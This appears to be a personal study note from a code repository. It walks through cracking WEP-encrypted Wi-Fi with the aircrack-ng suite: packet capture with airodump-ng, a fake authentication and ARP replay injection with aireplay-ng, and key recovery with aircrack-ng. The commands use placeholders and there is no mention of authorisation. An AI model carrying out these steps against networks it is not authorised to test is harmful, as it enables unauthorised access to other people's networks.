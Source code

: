[Back](..)

it is the easiest to crack\
airodump-ng --bssid <bssid> --channel <channel> --write <file> <mon mode adapter> to start capturing IPs

FOR NETWORK WITH BUSY TRAFFIC AND HIGH NUMBER OF #Data RECIEVED IN AIRODUMP ATTACK\
aircrack-ng <name of cap file from write file> will crack WEP code\
it will give a number which looks like a MAC address and also a ASCII code.\
Just removing the colons from the MAC address like code will give the passwd.

FOR DORMANT NETWORKS\
we can use fake authentication attack\
airodump-ng --bssid <target> --channel <ch> --write <file> <mon adapter> to collecting date\
aireplay-ng --fakeauth <number of attacks> -a <target bssid> -h <our bssid> <mon adapter>to start fakeauth attack and associate with it\
our bssid can be found at first 12 digits with -'s after unspec in ifconfig, remove - and put :

aireplay-ng --arpreplay -b <target> -h <our bssid> <mon adapter> to start injecting packets and force router to send new iv's\
Before starting arpreplay attack, reassociate with the network again.\
after arpreplay attack, wait until we recieve arp packets\
once we recieve arp packets, data will be recieved at high rates, associate with network once again before using aircrack-ng\
aircrack-ng <cap file> to start cracking\
repeat this until you succeed

[Back](..)